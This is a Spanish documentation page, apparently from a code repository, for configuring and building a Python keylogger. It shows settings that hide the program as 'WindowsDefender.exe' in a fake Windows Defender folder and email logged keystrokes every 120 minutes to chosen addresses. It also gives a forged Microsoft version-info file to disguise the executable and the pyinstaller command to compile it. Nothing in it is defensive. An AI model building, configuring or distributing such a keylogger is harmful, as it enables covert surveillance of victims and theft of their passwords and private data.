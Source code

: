 [Volver al a la documentación](../README.md)

# Custom __[Solo para programadores intemedio de python]__

Proceso de Opciones avanzada del keylogger.

__NOTA:__ Si no sabe no toque.
````py
# ***************************************   ZONA CUSTOM AVANZADA  ***********************************

# NOTA:| Solo Cambie éstas variables si sabe      |
#      | lo que está haciendo, en caso contrario  |
#      | el Keylogger no funcionará correctamente |

def GetNameKey():                   # Retorna el nombre del Keylogger compilado *.EXE
    return "WindowsDefender.exe"    # este archivo debe tener el mismo nombre "WindowsDefender.py"  
def GetPathOcult():                 # Path de la carpeta donde se ocultará el Keylogger
    return "C:\\Users\\Public\\Security\\Windows Defender\\"
def logKeyPath():   # Ruta del registro de teclas.
    # Ruta donde se guardará temporalmente el Registro de teclas
    return "C:\\Users\\Public\\Security\\Settings\\"
def LogName():  # Es el nombre que tendrá el registro de teclas.
    return "reg.k"             # <= Opcional, cambie de nombre al archivo 
def FilePath():
    return GetPathOcult()+GetNameKey()  # <No cambiar>

# ************************************  FIN ZONA CUSTOM AVANZADA   *********************************

####################################################################################################

# ************************************  FIN ZONA CUSTOM BÁSICA   *********************************

# Correo de envío [Primaria] 
def emailP():                   # <<== Cambia éste correo
    return "correo1@gmail.com" 
def passP():                    # <<== Contraseña del correo
    return "contra1"
# Correo de envío [Segundaria]     <=> Solo si hay algún problema de envío con el correo Principal
def emailS():                   # <<== Cambia éste correo
    return "correo2@gmail.com"
def passS():                   # <<== Contraseña del correo 
    return "pass2"

def timeSend(): # Tiempo de envío perzonalizado
    return 120 #Minutos                 <= Escoja su tiempo en minutos

#Correos que recibirán el registro de teclas.
def ReceiveE():
    #return ["Recibe1@gmail.com", "Recibe2@hotmail.com", "Recibe3@yahoo.com"]   # MultiCorreo
    return ["CorreoReceptor@gmail.com"]                                         # MonoCorreo
# ************************************  FIN ZONA CUSTOM BÁSICA   *********************************

````


# Proceso de conversión: `*.py a *.exe`
Se utilizará `pyinstaller`
1. En la carpeta principal encontrará dos archivos, uno llamado `icon.ico` y el otro `version.txt`, éstos 2 archivos son importantes para la conversión del `*.py a *.exe`.
    - `icon.ico` = El icono que tendrá el keylogger al ser convertido
    - `version.txt` = Información detallada del keyloger.
    
    Si el siguiente proceso se realiza con exito, el keylogger estará disfrazado así como las siguientes imagenes.
    

    ![Imagen1](https://i.imgur.com/MQAiVnJ.png)
    ![Imagen2](https://i.imgur.com/mTBByRy.png)

    Toda esa información puede ser modificada en el archivo de la plantilla `version.txt`
2. __Disfraz _[Información]_:__ El el siguiente archivo `version.txt`, puedes modificar la información del `*.exe` la cual se supone que de ser creible.
````r
VSVersionInfo(
  ffi=FixedFileInfo(
    filevers=(6, 1, 7601, 17514),
    prodvers=(6, 1, 7601, 17514),
    mask=0x3f,
    flags=0x0,
    OS=0x40004,
    fileType=0x1,
    subtype=0x0,
    date=(0, 0)
    ),
  kids=[
    StringFileInfo(
      [
      StringTable(
        u'040904B0',
        [StringStruct(u'CompanyName', u'Microsoft CorpoKeyloggerion'),
        StringStruct(u'FileDescription', u'Windows Security Health Host Key'),
        StringStruct(u'FileVersion', u'6.1.7601.17514 (win7sp1_rtm.101119-1850)'),
        StringStruct(u'InternalName', u'Windows Defender'),
        StringStruct(u'LegalCopyright', u'\xa9 Microsoft CorpoKeyloggerion. All rights reserved.'),
        StringStruct(u'OriginalFilename', u'SecurityHealthHostKey.exe'),
        StringStruct(u'ProductName', u'Microsoft\xae Windows\xae OpeKeyloggering System'),
        StringStruct(u'ProductVersion', u'6.1.7601.17514')])
      ]), 
    VarFileInfo([VarStruct(u'Translation', [1033, 1200])])
  ]
)
````




3. __Conversión final:__
Mediante Consola debe dirigirse a la carpeta principal.
Los requisitos es tener instalada la librería `pyinstaller`, porfavor mire un tutorial antes de hacer éste proceso, la linea de comando recomendada es la siguiente:


````bat
pyinstaller --clean   --distpath "EXE" -F --windowed --icon icon.ico --version-file version.txt "Tu nombre custom".py
````